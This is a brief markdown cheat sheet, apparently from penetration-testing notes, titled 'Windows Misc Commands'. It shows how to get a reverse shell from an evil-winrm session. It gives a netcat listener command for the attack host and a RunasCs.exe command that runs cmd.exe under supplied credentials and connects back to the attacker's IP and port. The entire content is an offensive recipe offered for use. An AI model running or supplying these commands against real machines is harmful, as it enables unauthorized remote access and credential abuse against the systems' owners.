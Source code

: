 # Windows Misc Commands

## Rev Shell from evil-winrm using RunasCs.exe
* Attack Host
```bash
nc -lvnp 1337
```
* Evil-WinRM
```cmd
.\RunasCs.exe <user> <password> cmd.exe -r <yourip>:1337
```
